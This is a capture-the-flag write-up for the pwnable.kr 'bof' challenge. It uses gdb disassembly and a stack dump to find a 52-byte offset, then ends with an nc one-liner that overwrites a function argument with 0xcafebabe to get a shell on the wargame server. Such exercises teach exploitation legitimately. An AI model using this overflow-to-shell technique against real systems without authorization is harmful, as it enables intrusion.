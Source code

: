 The binary has the following security properties:
```
uzi@pwnpatrol:$ checksec --file bof
[*] '/home/uzi/challenges/wargames/pwnable.kr/toddlers_bottle/bof/bof'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The 0xcafebabe comparison is at func+40.
```
(gdb) disassemble func
Dump of assembler code for function func:
0x5655562c <+0>:     push   ebp
0x5655562d <+1>:     mov    ebp,esp
0x5655562f <+3>:     sub    esp,0x48
0x56555632 <+6>:     mov    eax,gs:0x14
0x56555638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
0x5655563b <+15>:    xor    eax,eax
0x5655563d <+17>:    mov    DWORD PTR [esp],0x78c
0x56555644 <+24>:    call   0x56555645 <func+25>
0x56555649 <+29>:    lea    eax,[ebp-0x2c]
0x5655564c <+32>:    mov    DWORD PTR [esp],eax
0x5655564f <+35>:    call   0x56555650 <func+36>
0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
```
Put a breakpoint there, run the application and provide 8 bytes junk data to stdin to see where the data will be located in the stack.
```
(gdb) b *func +40
Breakpoint 1 at 0x56555654
(gdb) r <<< AABBCCDD
Starting program: /home/uzi/challenges/wargames/pwnable.kr/toddlers_bottle/bof/bof <<< AABBCCDD
overflow me :

Breakpoint 1, 0x56555654 in func ()
```
Dump the stack frame. ```ebp-0x48``` because, func allocated 0x48 bytes in stack via ```sub esp,0x48```
```
(gdb) x/24wx $ebp-0x48
0xffffcf40:     0xffffcf5c      0x00000000      0x00000000      0x7e9b3000
0xffffcf50:     0x00000009      0xffffd185      0xf7e184a9      0x42424141
0xffffcf60:     0x44444343      0xf7fc0000      0x00000001      0x5655549d
0xffffcf70:     0xf7fc03fc      0x00000000      0x56556ff4      0x7e9b3000
0xffffcf80:     0x00000000      0xf7e185db      0xffffcfa8      0x5655569f
0xffffcf90:     0xdeadbeef      0x00000000      0x565556b9      0x00000000
```
As seen above, we can see the input data as 0x42424141 0x44444343.Hence we need 52 bytes till parameter to func.

Along with the script, challange can be solved with the following one-liner as well. After shell is opened, ```cat flag``` to get the flag
```
(python3 -c 'import sys;sys.stdout.buffer.write(b"A"*52 + b"\xbe\xba\xfe\xca")'; cat) | nc pwnable.kr 9000
```
